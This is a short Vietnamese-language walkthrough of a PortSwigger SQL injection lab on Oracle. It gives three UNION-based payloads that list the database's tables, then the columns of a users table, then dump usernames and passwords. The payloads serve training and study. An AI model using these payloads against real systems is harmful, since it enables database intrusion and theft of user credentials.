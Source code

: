 Có tài khoản xong thì login và solved:

![Solved](sql-injection/slqi-examining-database/solve-listing-database.jpg)

### Lab: SQL injection attack, listing the database contents on Oracle <a name="listing-oracle"></a>

Đường dẫn đến lab [ở đây](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Bài này thì tương tự bài [non-Oracle ở trên](#listing-non-oracle). Do đó, mình sẽ làm tương tự.

`Payload: "Gifts' UNION SELECT null,table_name FROM all_tables--"`

![Show all table](sql-injection/slqi-examining-database/users-table-oracle.jpg)

`Payload: "Gifts' UNION SELECT null,column_name FROM all_tab_columns WHERE table_name='USERS_TXZJUA'--"`

![show-detail-table-oracle](sql-injection/slqi-examining-database/show-detail-table-oracle.jpg)

`Payload: "Gifts' UNION SELECT USERNAME_TPLFRU,PASSWORD_DHDRXQ FROM USERS_TXZJUA--"`

![show account](sql-injection/slqi-examining-database/show-account-oracle.jpg)
